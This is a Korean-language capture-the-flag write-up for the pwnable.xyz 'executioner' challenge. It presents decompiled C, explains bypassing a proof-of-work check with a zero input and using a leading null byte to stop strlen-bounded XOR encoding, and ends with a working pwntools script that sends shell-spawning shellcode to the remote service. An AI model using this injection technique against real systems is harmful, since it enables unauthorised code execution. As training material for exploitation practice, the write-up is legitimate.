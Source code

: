 ```yaml
---
title: "[pwnable.xyz]executioner"
date: 2020-1-26
ctf: Pwnable.xyz
layout: post
published : false
---
```


solve_pow()함수 통과하면 inpt에 입력할 수 있다. 근데 입력한 값을 랜덤값과 xor해준다. 이후 v4는 메모리 매핑해주고 우리가 xor한 값을 참조해 영역을 실행권한도 존재해서 실행할 수 있다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v4; // rax
  int i; // [rsp+0h] [rbp-20h]
  int fd; // [rsp+4h] [rbp-1Ch]

  setup();
  solve_pow();
  puts("Shellcode executioner");
  fd = open("/dev/urandom", 0);
  if ( fd != -1 )
  {
    read(fd, key, 127uLL);
    close(fd);
    printf("Input: ", key);
    read(0, inpt, 127uLL);
    for ( i = 0; i < strlen(inpt); ++i )
      inpt[i] ^= key[i];
    v4 = mmap(0LL, 0x1000uLL, 7, 34, 0, 0LL);
    *v4 = *inpt;
    v4[1] = qword_202288;
    v4[2] = qword_202290;
    v4[3] = qword_202298;
    v4[4] = qword_2022A0;
    v4[5] = qword_2022A8;
    v4[6] = qword_2022B0;
    v4[7] = qword_2022B8;
    v4[8] = qword_2022C0;
    v4[9] = qword_2022C8;
    v4[10] = qword_2022D0;
    v4[11] = qword_2022D8;
    v4[12] = qword_2022E0;
    v4[13] = qword_2022E8;
    v4[14] = qword_2022F0;
    v4[15] = qword_2022F8;
    JUMPOUT(__CS__, v4);
  }
  puts("error");
  return 1;
}
```

우선 이 `solve_pow()` 함수를 통과해야한다. 여기서도 랜덤값을 가져와서 두개 입력해서 더한 값이 랜덤값과 같아야한다. 근데 문제는 sleep() 해주는데 인자가 두개 입력한 걸 곱한 값이다. 근데 둘중 하나 0으로 하면 그냥 sleep(0) 되서 통과할 수 있다.  

```c
unsigned __int64 solve_pow()
{
  unsigned int buf; // [rsp+8h] [rbp-18h]
  int v2; // [rsp+Ch] [rbp-14h]
  int v3; // [rsp+10h] [rbp-10h]
  int fd; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Can't open /dev/urandom");
    exit(1);
  }
  buf = 0;
  read(fd, &buf, 4uLL);
  close(fd);
  v2 = 0;
  v3 = 0;
  printf("POW: x + y == 0x%x\n", buf);
  printf("> ");
  if ( _isoc99_scanf("%d %d", &v2, &v3) != 2 )
  {
    puts("scanf error");
    exit(1);
  }
  getchar();
  if ( v3 + v2 != buf )
  {
    puts("POW failed");
    exit(1);
  }
  puts("Loading challenge... ");
  sleep(v2 * v3);
  return __readfsqword(0x28u) ^ v5;
}
```

우선 위에서 말한대로 `solve_pow` 함수 통과하면 이후에 key와 xor하는데 strlen(inpt)을 해준다. 여기서 트릭이 널바이트 넣으면 거기까지밖에 문자로 인식 안한다는 것이다. 그래서 널바이트를 삽입하면 뒤에는 xor안할 수 있다. 이후 쉘코드 넣으면 쉘을 띄울 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30025)
#p = process('./challenge')
win = e.symbols['win']

## solve pow
p.recvuntil('POW: x + y ==')
buf = int(p.recvline().strip(),16)
p.sendlineafter('> ','0 ' + str(buf))

payload = '\x00'*2
payload += asm(shellcraft.amd64.sh())
p.sendafter(':',payload)

p.interactive()
```

